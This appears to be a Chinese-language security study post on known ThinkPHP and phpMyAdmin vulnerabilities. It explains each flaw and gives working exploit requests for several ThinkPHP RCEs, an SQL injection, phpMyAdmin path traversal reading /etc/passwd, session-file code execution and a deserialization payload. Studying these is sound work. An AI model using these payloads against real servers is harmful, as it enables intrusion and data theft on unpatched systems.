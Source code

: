 ```yaml
---
title: ThinkPHP & phpMyAdmin 漏洞学习
date: 2020-07-29
tags:
  - PHP
  - 反序列化
categories:
  - Web 安全
---
```


包含 ThinkPHP 5.x RCE / ThinkPHP 5.0.23 RCE / ThinkPHP 2.x RCE / ThinkPHP 5.x SQL 注入导致敏感信息泄露 / phpMyAdmin 4.8.1 远程文件包含 / phpMyAdmin 4.0.x-4.6.2 认证用户 RCE / phpMyAdmin 2.x setup.php 反序列化

<!--more-->

## ThinkPHP 5.x RCE

[参考](https://xz.aliyun.com/t/3570)

Controller 中没有过滤掉 `\`，但命名空间恰好需要用到 `\`，因此可以调用任意类的方法达到 RCE。

```
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 1](1.png)

## ThinkPHP 5.0.23 RCE

[参考](https://xz.aliyun.com/t/3845)

获取 HTTP 请求类型时没有过滤，导致可以调用任意方法，参数为 POST 的数据。因此可以调用 `Request` 类的构造函数，覆盖其成员属性 `method, filter, get`，最终调用 `call_user_func` 实现 RCE。

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&get[]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&server[REQUEST_METHOD]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 2](2.png)

## ThinkPHP 2.x RCE

[参考](http://since1994.cn/?p=281)

`preg_replace` 的 `/e` 模式允许用户输入的参数被执行，造成 RCE。

```
POST /?s=1/2/3/${eval($_POST[merc])} HTTP/1.1
...

merc=printf(b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327);
```

![图 3](3.png)

> ThinkPHP 3.0 Lite 模式下同样存在漏洞。

## ThinkPHP 5.x SQL 注入导致敏感信息泄露

[参考](https://xz.aliyun.com/t/125)

PDO 查询时如果在查询条件中遇到了 `in` ，就会遍历传入数组 `ids` 的 key 和 value，而前者在预编译时并没有进行过滤，可以导致预编译结果出错。在 debug 模式开启时（默认），此时的报错会泄露数据库用户名和密码。

```
/index.php?ids[1,updatexml(1,concat(0x7e,md5(1),0x7e),1)]=1
```

![图 4](4.png)

## phpMyAdmin 4.8.1 远程文件包含 CVE-2018-12613

[参考](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

代码中存在文件包含，只需要绕过条件判断中的白名单。判断函数利用 `?` 截断 GET 参数，并且还会进行 URL 解码，因此利用二次 URL 编码 `%253f` 即可绕过白名单，同时读取任意文件。

```
/index.php?target=db_sql.php%253f/../../../../etc/passwd
```

![图 5](5.png)

随后，执行 `select <?=phpinfo()?>;`，抓包获取当前 session，随后访问 session 文件即可执行对应 php 代码：

```
/index.php?target=db_sql.php%253f/../../../../tmp/sess_1ee714d1373e5caad9faf122e9ad1798
```

![图 6](6.png)

## phpMyAdmin 4.0.x-4.6.2 认证用户 RCE CVE-2016-5734

实际影响版本：

- 4.0.x < 4.0.10.16
- 4.4.x < 4.4.15.7
- 4.6.x < 4.6.3

[参考](https://larry.ngrep.me/2016/09/21/cve-2016-5734-analysis/)

这个问题实际上是 PHP 5.4.7 的 `preg_replace` 函数的问题。当使用类似如下代码时：

```php
preg_replace('/'.$user_input.'/i', $replace, $text);
```

我们可以输入 `/e\0` 来注入 `/e` 修饰符，同时截断后面的内容来达成 RCE。

在 phpMyAdmin 中利用这个漏洞，需要知道系统的用户名密码：[exp](https://www.exploit-db.com/exploits/40185)

![图 7](7.png)

## phpMyAdmin 2.x setup.php 反序列化

[参考](https://rj45mp.github.io/phpMyAdmin-WooYun-2016-199433/)

在 `/scripts/setup.php` 中没有对 `configuration` 参数进行过滤就进行了反序列化，因此可以注入一个 `PMA_Config` 对象，在构造函数中引入其成员变量 `source` 并通过 `eval` 执行。既可以读取文件，也可以通过已有文件执行代码。

以读取 `/etc/passwd` 为例：

```php
<?php
class PMA_Config {
  public $source = "/etc/passwd";
}

$data = new PMA_Config();
echo serialize($data);

?>
```

运行可以得到：

```
O:10:"PMA_Config":1:{s:6:"source";s:11:"/etc/passwd";}
```

![图 8](8.png)

之后可以进一步通过 ftp 协议写 shell。

